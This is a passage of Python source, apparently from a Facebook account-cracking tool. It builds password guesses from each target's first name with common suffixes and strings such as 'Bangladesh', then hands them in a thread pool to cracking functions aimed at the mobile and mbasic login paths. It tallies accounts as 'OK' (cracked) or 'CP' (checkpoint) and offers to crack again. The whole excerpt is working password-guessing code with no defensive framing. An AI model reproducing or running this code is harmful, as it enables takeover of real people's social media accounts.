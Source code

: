 					pwv.append(frs+'1234567890')
					pwv.append(frs+'12')
					pwv.append(frs+'11')
					pwv.append(frs+'22')
					pwv.append(frs+'1122')
					pwv.append(frs+'112233')
					pwv.append(frs+'11223344')
					pwv.append(frs+'1122334455')
					pwv.append('Bangladesh')
					pwv.append('khankhan')
					pwv.append('123'+frs+'123')
					pwv.append('1234'+frs+'1234')
					pwv.append('12345'+frs+'12345')
					pwv.append('123'+frs)
					pwv.append('1234'+frs)
					pwv.append('12345'+frs)
			else:
				if len(frs)<3:
					pwv.append(nmf)
				else:
					pwv.append(nmf)
					pwv.append(frs+'123')
					pwv.append(frs+'1234')
					pwv.append(frs+'12345')
					pwv.append(frs+'123456')
					pwv.append(frs+'123456789')
					pwv.append(frs+'1234567890')
					pwv.append(frs+'12')
					pwv.append(frs+'11')
					pwv.append(frs+'22')
					pwv.append(frs+'1122')
					pwv.append(frs+'112233')
					pwv.append(frs+'11223344')
					pwv.append(frs+'1122334455')
					pwv.append('Bangladesh')
					pwv.append('khankhan')
					pwv.append('123'+frs+'123')
					pwv.append('1234'+frs+'1234')
					pwv.append('12345'+frs+'12345')
					pwv.append('123'+frs)
					pwv.append('1234'+frs)
					pwv.append('12345'+frs)
			if 'ya' in pwpluss:
				for xpwd in pwnya:
					pwv.append(xpwd)
			else:pass
			if 'mobile' in method:
				pool.submit(crackmobile_SHOAIB,idf,pwv,nmf)
			elif 'mbasic' in method:
				pool.submit(crackmbasic_SHOAIB,idf,pwv,nmf)
			else:
				pool.submit(crackmbasic,idf,pwv,nmf)
	print(f'{N}╭───[{b}•{x}]{h} OK : {h}%s '%(ok))
	print(f'{N}{x}[{b}•{x}]{k} CP : {k}%s{x} '%(cp))
	print('│')
	print(f'[{b}•{x}] Crack Again ( Y/t ) ? ')
	woi = input(f'╰───[{b}•{x}] Pilih : ')
	if woi in ['y','Y']:
		back()
	else:
		print(f'\t{x}  {N}[{k} Gimana Udah Bersyukur Blum ]{x} ')
		time.sleep(2)
		exit()
#--------------------[ METODE-B-API ]-----------------#